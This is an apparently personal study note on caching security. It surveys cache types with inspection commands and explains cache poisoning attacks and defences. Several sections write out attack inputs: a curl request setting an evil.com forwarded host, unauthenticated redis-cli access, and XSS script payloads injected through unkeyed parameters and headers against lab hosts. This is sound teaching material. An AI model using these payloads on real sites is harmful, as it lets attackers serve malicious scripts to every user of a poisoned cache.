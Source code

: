 | **Name**              | **Location**                  | **Examples**                                   | **Check Locations**                                          |
| --------------------- | ----------------------------- | ---------------------------------------------- | ------------------------------------------------------------ |
| **Client-Side Cache** | User’s browser/local storage  | Browser Cache, Service Workers, IndexedDB      | `chrome://cache` (Chrome), `about:cache` (Firefox)           |
| **CDN Cache**         | Edge servers worldwide        | Cloudflare, AWS CloudFront, Akamai, Fastly     | `curl -I [https://example.com](https://example.com)          |
| **Web Server Cache**  | Web server before application | Nginx FastCGI Cache, Apache mod_cache, Varnish | `sudo ls /var/cache/nginx`                                   |
| **Application Cache** | Application runtime memory    | Laravel Cache, Spring Cache, Express LRU Cache | Depends on framework (`config/cache.php` for Laravel)        |
| **In-Memory Cache**   | RAM (ephemeral storage)       | Redis, Memcached                               | `redis-cli KEYS *` or `memcached-tool 127.0.0.1:11211 stats` |
| **Database Cache**    | Database engine               | MySQL Query Cache, PostgreSQL Shared Buffers   | `SHOW STATUS LIKE 'Qcache%';` (MySQL)                        |
| **OS Cache**          | System RAM                    | Linux Page Cache, Windows System Cache         | `free -m`, `cat /proc/meminfo                                |
| **Proxy Cache**       | Proxy servers                 | Squid Proxy, Nginx Reverse Proxy Cache         | `sudo ls /var/cache/squid`                                   |


## **1. Introduction to Caching Security**

Caching services like **Redis, Memcached, and Varnish** improve performance by reducing database queries and server load. 

https://kinsta.com/blog/what-is-cache/

https://portswigger.net/web-security/web-cache-deception

http://www.cs.umd.edu/~shankar/417-F01/Slides/chapter2a-aus/sld024.htm
https://www.geeksforgeeks.org/web-proxy-caching-in-distributed-system/
https://www.freecodecamp.org/news/the-hidden-components-of-web-caching-970854fe2c49/

https://cpdos.org/

![](https://i.imgur.com/kycaOWm.png)


![](https://i.imgur.com/ODMjeay.png)

### **Caching Architecture**

```mermaid
graph TD;
    A[User] -->|Request| B[Application Server]
    B -->|Cache Lookup| C[Caching Layer - Redis/Memcached]
    C -->|Hit?| D[Yes: Return Cached Data]
    C -->|Miss?| E[Fetch from Database]
    E -->|Store in Cache| C
    E -->|Return Data| B
    B -->|Send Response| A
```

---

## **2. Common Caching Attack Techniques**

| **Attack**                     | **Description**                                             | **Example Exploitation**                                         |
| ------------------------------ | ----------------------------------------------------------- | ---------------------------------------------------------------- |
| **Cache Poisoning**            | Attackers inject **malicious responses** into the cache.    | `curl -H "X-Forwarded-Host: evil.com" http://target.com`         |
| **Cache Side-Channel Attacks** | Attackers infer sensitive data through **timing analysis**. | Measure response time to extract cryptographic keys.             |
| **Race Conditions**            | Exploit delays in cache updates to retrieve stale data.     | Simultaneous requests expose **stale balances** in banking apps. |
| **Unauthorized Access**        | Open caching services allow **unauthenticated access**.     | `redis-cli -h target.com` exposes database entries.              |
| **Exploiting Unexpired Data**  | Retrieve **expired but still available** cache entries.     | `curl -H "Cache-Control: max-stale=3600" http://target.com`      |

---

## **3. Web Cache Poisoning Attacks**

### **3.1 Understanding Web Cache Poisoning**

Attackers **exploit unkeyed parameters** or **headers** to inject malicious payloads into cached responses, affecting multiple users.

### **3.2 Identifying Keyed & Unkeyed Parameters**

|**Parameter Type**|**Cache Behavior**|
|---|---|
|**Keyed Parameters**|Change cache key → Different responses stored|
|**Unkeyed Parameters**|Do not affect cache key → Same cached response|

**Example: Identifying Unkeyed Parameters**

```http
GET /index.php?lang=en&ref=test123 HTTP/1.1
Host: example.com
```

✅ **Keyed:** Changing `lang` results in a **cache miss**.  
❌ **Unkeyed:** Changing `ref` results in a **cache hit**, meaning it's exploitable.

### **3.3 Exploitation: Injecting Malicious Content**

```http
GET /index.php?lang=en&ref="><script>alert(1)</script> HTTP/1.1
Host: webcache.htb
```

🔹 **Impact:** Injected script affects all users served from the cache.

---

## **4. Advanced Cache Poisoning Techniques**

| **Technique**              | **Description**                                      | **Example Exploitation**                                               |
| -------------------------- | ---------------------------------------------------- | ---------------------------------------------------------------------- |
| **Fat GET Requests**       | Servers process GET bodies, caches ignore them.      | `GET /index.php` with payload in `Content-Length` body.                |
| **Parameter Cloaking**     | Cache and server interpret parameters differently.   | `GET /index.php?lang=en;a=b;lang=fr`                                   |
| **Header-Based Poisoning** | Abuse unkeyed headers to inject malicious responses. | `X-Backend-Server: testserver.htb"></script><script>alert(1)</script>` |

---

## **5. Security Best Practices for Caching Services**

|**Security Measure**|**Implementation**|**Benefits**|
|---|---|---|
|**Secure Configuration**|Disable **anonymous access**, enforce **ACLs**|Prevents unauthorized access|
|**TLS Encryption**|Encrypt data in transit|Protects against MITM attacks|
|**Cache Key Validation**|Ensure **all relevant parameters** are keyed|Prevents cache poisoning|
|**Rate Limiting**|Limit the number of **cache lookups per second**|Mitigates brute force attacks|
|**Cache Invalidation Policies**|Use **time-based expiration**|Prevents stale data retrieval|

---

## **6. Caching Security Tools & Detection Mechanisms**

|**Tool**|**Function**|**Example Usage**|
|---|---|---|
|**Redis ACLs**|Restricts **access and permissions**|`redis-cli ACL SETUSER limited -n -r`|
|**Memcached Security**|Enables authentication & TLS|`memcached -S -m 64 --ssl`|
|**Burp Suite Cache Poisoning**|Detects **cache-based injection flaws**|Automated testing in Burp Suite|
|**SIEM / Log Monitoring**|Analyzes cache logs for anomalies|Splunk, Graylog, ELK|

---

